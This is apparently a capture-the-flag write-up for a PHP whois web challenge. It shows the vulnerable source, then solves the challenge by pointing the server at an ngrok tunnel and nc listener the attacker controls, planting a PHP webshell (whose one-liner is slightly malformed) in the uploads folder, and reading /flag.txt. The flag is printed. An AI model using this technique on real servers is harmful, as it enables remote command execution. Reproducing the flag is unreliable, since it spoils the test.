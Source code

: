 # domain_info

#### Category: Web Exploitation

#### Difficulty: Easy

#### Type: White Box

#### Description: Our team found an suspicious server which allows dns queries, find out how to exploit it. Ngrok could be helpful! Flag is : `/flag.txt`

#### Author: skyv3il

#### Files: [challenge.zip](https://github.com/emperorpenguincat/Public-Writeups/blob/main/UniVsThreats%20CTF%202025/domain_info/challenge.zip)

#### Preview:
![image](https://github.com/user-attachments/assets/dc750e76-388a-4a5b-b5c9-af43c96b95ff)

## Solution
<details>

The web-based challenge gave us a PHP source code and a webpage that had similar features to a WHOIS website. Firstly, we use simple queries to test out the web response to understand its behaviour.

![image](https://github.com/user-attachments/assets/7a2594fa-fe26-4256-9c65-0fc537586de7)

As we can see, a randomly generated filename containing the query response is kept in the '/uploads/' directory, and the website allows us to specify any file type extension we want to.

![image](https://github.com/user-attachments/assets/4003346f-4e69-40c1-afbf-4b83d0678f85)

However, the file's response has no relevant information, so let's examine the source code to identify the website's potential vulnerabilities.

### Source Code (PHP)

```php
<?php
function cleanUploads($path, $minutes = 2) {
    foreach (glob($path . "/*") as $file) {
        if (is_file($file) && (time() - filemtime($file)) > ($minutes * 60)) {
            unlink($file);
        }
    }
}

function randomString($length = 6) {
    return substr(str_shuffle("abcdefghijklmnopqrstuvwxyz0123456789"), 0, $length);
}

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $host = $_POST['host'];
    $port = $_POST['port'];
    $query = $_POST['query'];
    $savefile = $_POST['savefile'];

    // Basic anti-command injection filters
    foreach ([$host, $port, $query, $savefile] as $input) {
        if (preg_match('/[;&|`$()<>]/', $input)) {
            die("<p style='color:red;'>❌ Command Injection Detected!</p>");
        }
    }

    // Extra simple validation
    if (!filter_var($host, FILTER_VALIDATE_IP) && !filter_var($host, FILTER_VALIDATE_DOMAIN)) {
        die("<p style='color:red;'>❌ Invalid Hostname</p>");
    }

    // Safe escaping
    $host = escapeshellarg($host);
    $port = escapeshellarg($port);
    $query = escapeshellarg($query);

    // Create uploads folder if not exists
    $uploadDir = __DIR__ . '/uploads';
    if (!is_dir($uploadDir)) {
        mkdir($uploadDir, 0755, true);
    }

    // Cleanup old files
    cleanUploads($uploadDir, 2); // Delete files older than 2 minutes

    // Randomize file name
    if (empty($savefile)) {
        $savefile = "output.txt";
    }
    $randomPrefix = randomString();
    $finalName = $randomPrefix . "_" . basename($savefile);
    $savepath = $uploadDir . '/' . $finalName;

    // Execute
    $command = "whois -h " . $host . " -p " . $port . " " . $query  . " >  " . escapeshellarg($savepath);
    system($command);
    echo "Command: <pre>" . htmlspecialchars($command) . "</pre>";
    echo "<h2>✅ Whois Executed. Saved in:</h2>";
    echo "<pre>/uploads/" . htmlspecialchars($finalName) . "</pre>";
    echo "<p><a style='color:#00ffea;' href='/uploads/" . htmlspecialchars($finalName) . "' target='_blank'>Click here to view your file</a></p>";
}
?>
```

Based on the provided source code, we can observed that it prevents simple command injection by blacklisting shell characters using `preg_match()` and `escapeshellarg()` function to execute shell commands securely so direct command injection will be difficult. It also uses `filter_var()` to validate the host and variable `$command` where the query will be executed inside the `system()` function. Since the website accepts host and port, we can establish a simple reverse shell like this: 

#### Set up a ngrok TCP tunnel

*Note: To create TCP tunneling using ngrok, it is required to fill credit card info into your account but don't worry. It is still free.*

`ngrok tcp 1337`

Then, the ngrok application will assign us a random host IP address and port to which we can connect later.

#### Set up a netcat listener

`nc -lvnp 1337`

Before submitting the request, we need to configure the listener so that when the victim executes the query, it connects to our host.

#### Fill up the host and port provided by ngrok

We can send the request after completing the form, which looks like this. Ensure the file type is a `.php` so that the php webshell which will be injected later on can be recognized.

![image](https://github.com/user-attachments/assets/965a1089-0260-4c5d-b0c5-08125f58bb59)

When the request has been sent, the netcat connection will be established. We can see that string "test" were displayed which we specified earlier indicates that the connection is successful. 

![image](https://github.com/user-attachments/assets/231f603d-5fb5-4bbb-8fa6-a1b2c6e1341d)

Then, we can inject a simple PHP webshell: `<?php system($_GET['cmd'];)?>`. The webshell will allow us to use UNIX commands on the cmd parameter.

![image](https://github.com/user-attachments/assets/42a50d9d-df3e-4a2b-8ed9-cca4358eb3a0)

After successfully injected the webshell, we can access the file to view the output.

![image](https://github.com/user-attachments/assets/7d7d94fc-3833-4aec-a8c4-c692e2a4a324)

The php script's output indicated an error regarding the null argument because we did not specify any commands in the `?cmd` parameter.  This indicates that the command was successfully injected.

![image](https://github.com/user-attachments/assets/d31e6ea9-1e77-40e4-878a-14a1b37dbbb1)

We may now use UNIX commands in the `?cmd` argument and directory listing command such as `ls` to display the files on the server.  Although the challenge stated that the flag is stored in `/flag.txt`, employing this approach may provide greater flexibility and efficiency for future challenges in which the filename is not specified.

![image](https://github.com/user-attachments/assets/a08d6ed9-c5e4-4217-8a89-6f9b90c4068f)

Then, for the next steps, we can simply access the `/flag.txt` file to acquire the flag for the challenge.

![image](https://github.com/user-attachments/assets/bcf6fbc3-7431-45d7-a3c1-dca89b564344)

#### Flag
> UVT{M4l1c10us_Wh0_1s_C0mmand_4nd_upl0ad}

</details>
